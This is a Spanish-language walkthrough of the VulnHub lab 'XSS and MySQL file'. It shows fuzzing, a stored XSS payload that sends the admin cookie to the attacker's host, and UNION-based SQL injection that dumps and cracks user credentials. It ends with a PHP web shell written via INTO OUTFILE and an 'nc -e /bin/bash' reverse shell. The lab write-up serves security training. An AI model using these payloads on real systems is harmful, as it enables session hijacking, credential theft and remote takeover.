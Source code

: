 ```yaml
---
layout: post
title: XSS and MySQL file - VulnHub
tags: [xss,sql]
subtitle: "XSS and MySQL file - VulnHub"
---
```


- [Puertos abiertos](#puertos-abiertos)
- [Servicio web (80)](#servicio-web-(80\)-)
  * [Fuzzing](#fuzzing)
  * [XSS](#xss)
  * [SQL injection](#sql-injection)
    + [Cantidad de columnas](#cantidad-de-columnas)
    + [Obteniendo datos de MySQL](#obteniendo-datos-de-mysql)
    + [Enumerar Base de Datos](#enumerar-base-de-datos)
    + [Enumerar tablas](#enumerar-tablas)
    + [Enumerar columnas](#enumerar-columnas)
    + [Cantidad de registros](#cantidad-de-registros)
    + [Extraer registros](#extraer-registros)
    + [Escritura de archivo](#escritura-de-archivo)
    + [Shell Inverso (www-data)](#shell-inverso--www-data-)

----

## Puertos abiertos

```
22/tcp open  ssh     OpenSSH 5.5p1 Debian 6+squeeze4 (protocol 2.0)
80/tcp open  http    Apache httpd 2.2.16 ((Debian))
```

## Servicio web (80)

![web](../assets/imgs/xss_mysql/web.png)

### Fuzzing

```
❯ ffuf -w /usr/share/wordlists/dirb/common.txt -u "http://192.168.0.100/FUZZ" -c -t 200 -fc 403
[...]
admin                   [Status: 301, Size: 314, Words: 20, Lines: 10]
all                     [Status: 200, Size: 644, Words: 177, Lines: 39]
cat                     [Status: 200, Size: 644, Words: 177, Lines: 39]
classes                 [Status: 301, Size: 316, Words: 20, Lines: 10]
css                     [Status: 301, Size: 312, Words: 20, Lines: 10]
favicon.ico             [Status: 200, Size: 14122, Words: 63, Lines: 77]
footer                  [Status: 200, Size: 185, Words: 75, Lines: 16]
header                  [Status: 200, Size: 571, Words: 167, Lines: 34]
index                   [Status: 200, Size: 1297, Words: 304, Lines: 60]
index.php               [Status: 200, Size: 1297, Words: 304, Lines: 60]
post                    [Status: 200, Size: 786, Words: 200, Lines: 39]
                        [Status: 200, Size: 1297, Words: 304, Lines: 60]
images                  [Status: 301, Size: 315, Words: 20, Lines: 10]
```

### XSS

Es una vulnerabilidad que permite a un atacante inyectar en un sitio web código malicioso del lado del cliente. Éste código es ejecurado por las vívtimas y permite a los atacantes eludir los controles de acceso y hacerse pasar por usuarios.

En etes caso nos encontramso ante un `XSS almacenado` o persistente, ya que a través de de esta vulnerabilidad, el script malicioso inyectado se almacena permanentemente dentro del servidor de las base de datos de la aplicación web.


**Payload:**

| argumento         | descripción                                                 |
|-------------------|-------------------------------------------------------------|
| document.write()  | escribe una cadena dentro del hilo de un `document` abierto |
| document.cookie() | obtiene las `cookies` asociadas con el documento            |
| <script\>         | insertar codigo javascript                                  |
| <img\>            | repersenta una imágen en el documento                       |
| src               | la url de la imágen                                         |

```
<script>document.write('<img src="http://192.168.0.107:8000/test.jpg?cookies='+document.cookie+'">')</script>
```

![xss](../assets/imgs/xss_mysql/xss.png)

Abrimos un servicio web con `python` para la captura de la cookie de `adminsitrador`.

![python](../assets/imgs/xss_mysql/python.png)

Cambiamos la cookie a traves del plugin `cookie manager` del navegador Firefox, tambien hat otras opciones como BurpSuite o en la opción `storage` de Firefox

![admin](../assets/imgs/xss_mysql/admin.png)

----

### SQL injection

Párametro vulnerable: `http://192.168.0.102/admin/edit.php?id=2%27`

![sql](../assets/imgs/xss_mysql/sql.png)

#### Cantidad de columnas

```
http://192.168.0.102/admin/edit.php?id=1 order by 1-- -		(+)
http://192.168.0.102/admin/edit.php?id=1 order by 2-- -		(+)
http://192.168.0.102/admin/edit.php?id=1 order by 3-- -		(+)
http://192.168.0.102/admin/edit.php?id=1 order by 4-- -		(+)
http://192.168.0.102/admin/edit.php?id=1 order by 5-- -		(!)
```

```
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,3,4-- -
```

![union](../assets/imgs/xss_mysql/union.png)

#### Obteniendo datos de MySQL

```
http://192.168.0.102/admin/edit.php?id=3 union select 1,version(),database(),4-- -
```

![mysql](../assets/imgs/xss_mysql/mysql.png)

#### Enumerar Base de Datos

```
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,count(*),4 from information_schema.schemata-- -				(3)
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,schema_name,4 from information_schema.schemata limit 0,1-- -	(information_schema)
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,schema_name,4 from information_schema.schemata limit 1,1-- -	(blog)
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,schema_name,4 from information_schema.schemata limit 2,1-- -	(mysql)
```

#### Enumerar tablas

```
http://192.168.0.102/admin/edit.php?id=3 union select  1,2,count(*),4 FROM information_schema.tables WHERE table_schema="blog"-- -				(3)
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,table_name,4 FROM information_schema.tables WHERE table_schema="blog" limit 0,1-- -	(comments)
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,table_name,4 FROM information_schema.tables WHERE table_schema="blog" limit 1,1-- -	(posts)
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,table_name,4 FROM information_schema.tables WHERE table_schema="blog" limit 2,1-- -	(users)
```

#### Enumerar columnas

```
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,count(*),4 from information_schema.columns WHERE table_name="users" and table_schema="blog"-- -			(3)
192.168.0.102/admin/edit.php?id=3 union select 1,2,column_name,4 from information_schema.columns WHERE table_name="users" and table_schema="blog" limit 0,1-- -		(id)
192.168.0.102/admin/edit.php?id=3 union select 1,2,column_name,4 from information_schema.columns WHERE table_name="users" and table_schema="blog" limit 1,1-- -		(login)
192.168.0.102/admin/edit.php?id=3 union select 1,2,column_name,4 from information_schema.columns WHERE table_name="users" and table_schema="blog" limit 2,1-- -		(password)
```
#### Cantidad de registros

Visualizar la cantidad de registros de una tabla (en este caso lala tabla `users`de la DDBB `blog`).

```
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,count(id),4 from blog.users-- -
```

#### Extraer registros

Como sólo hay un registro omitiré las limitaciones

```
192.168.0.102/admin/edit.php?id=3 union select 1,2,concat(id,0x3a,login,0x3a,password), 4 from blog.users-- -
```

![administrator](../assets/imgs/xss_mysql/administrator.png)


Posteriormente crackeo el hash obteniendo la contraseña de usuario `admin`.

![hash](../assets/imgs/xss_mysql/hash.png)

```
admin ::8efe310f9ab3efeae8d410a8e0166eb2 :: P4ssw0rd
```

#### Escritura de archivo

Despues de hacer enumeraciones en los distintos directorios del sitio web descubrí que en la ruta del sistema `/var/www/css` tengo permisos de escritura

```
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,"<?php echo system($_REQUEST['cmd']); ?>",4 INTO OUTFILE '/var/www/css/test.php'-- -
```

Inyecto en la variable `cmd` un comando un de sistema para comprobar si se puede ejecutar

![www](../assets/imgs/xss_mysql/www.png)


#### Shell Inverso (www-data)

```
192.168.0.102/css/test.php?cmd=nc -e /bin/bash 192.168.0.107 4444
```

Pongo en escucha para capturar la shell.

![nc](../assets/imgs/xss_mysql/nc.png)




<!--![cron](../assets/imgs/xss_mysql/cron.png)-->
